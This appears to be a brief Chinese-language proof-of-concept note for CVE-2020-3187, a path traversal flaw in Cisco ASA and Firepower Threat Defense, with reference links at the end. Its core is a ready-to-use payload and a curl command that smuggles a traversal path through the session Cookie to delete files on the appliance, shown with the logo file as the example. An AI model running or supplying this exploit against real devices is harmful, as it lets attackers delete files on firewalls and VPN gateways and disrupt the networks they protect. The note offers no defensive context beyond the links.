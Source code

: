 影響系統：
----------

Cisco Adaptive Security Appliance
Cisco Firepower Threat Defense Software

POC:
----

舉例爲刪除LOGO文件：

payload:
`/+CSCOU+/csco_logo.gif`

執行： `curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html`

更多：
------

> <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-3187>
> <https://blog.rapid7.com/2020/05/08/may-2020-cisco-remote-vulnerabilities-guidance/>
> <https://twitter.com/aboul3la/status/1286809567989575685>
